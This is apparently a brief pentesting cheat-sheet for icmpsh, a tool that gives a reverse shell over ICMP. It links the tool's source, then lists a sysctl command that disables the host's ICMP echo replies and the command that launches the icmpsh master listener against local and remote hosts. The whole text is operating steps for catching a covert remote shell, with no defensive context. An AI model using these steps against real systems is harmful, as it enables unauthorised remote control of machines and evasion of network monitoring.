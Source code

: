 ### soure 
https://github.com/bdamele/icmpsh  

### disable echo reply
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

### start listener
```
python2 icmpsh_m.py <lhost> <rhost>
```


